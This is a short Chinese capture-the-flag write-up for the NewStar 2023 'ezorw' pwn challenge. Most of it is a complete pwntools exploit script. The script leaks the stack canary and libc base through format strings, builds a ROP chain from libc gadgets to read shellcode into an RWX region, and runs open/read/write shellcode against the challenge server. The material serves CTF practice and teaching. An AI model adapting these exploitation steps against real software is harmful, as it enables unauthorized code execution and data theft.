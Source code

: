 ```yaml
---
title: newstar2023 week3 - orw rop
date: 2023/10/11 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过利用rwx区域和libc中的gadgets，成功构造payload读取shellcode并执行以获取flag。
---
```


## 文件分析

下载`ezorw`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

程序存在一片区域rwx，并且禁用了system，那么只要将shellcode写到那片区域，
再执行就可以了

那么没有gadgets怎么办？libc里应有尽有，只要知道了libcBase就可以拿到

## EXPLOIT

```python
from pwn import *
context.arch = 'amd64'
sh = remote('node4.buuoj.cn', 28119)

# payload 1
sh.sendline(b'%11$p') # get canary
sh.recvline(b'x\n') # skip
canary = int(sh.recvline()[:18], 16)

elf = ELF('ezorw')
putsGot = elf.got['puts']
main = elf.symbols['main']

# payload 2, notice seccomp requires a balanced stack; place putsGot on stack
retAddr = 0x4013b2
sh.sendline(b'0'*0x28 + p64(canary) + b'0'*8 + p64(retAddr) + p64(main) + p64(putsGot))

# payload 3, get puts@got
sh.sendlineafter(b'x\n', b'%13$s')
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')

libcBase = putsGotAddr - 0x80ed0
popRsi = libcBase + 0x2be51
popRdxRbx = libcBase + 0x90529 # some gadgets in libc
readPlt = elf.plt['read']

# payload 4, make a read call to read shellcode to 0x66660000
sh.sendlineafter(b'now', b'0'*0x28 + p64(canary) + b'0'*8 + p64(popRsi) + p64(0x66660000) + p64(popRdxRbx) + p64(0x100) + p64(0) + p64(readPlt) + p64(0x66660000))

# payload 5, create orw shellcode
shc = asm(shellcraft.open('./flag') + shellcraft.read('rax', 'rsp', 0x100) + shellcraft.write(1, 'rsp', 0x100))
sh.sendline(shc)

sh.interactive()
```

Done.
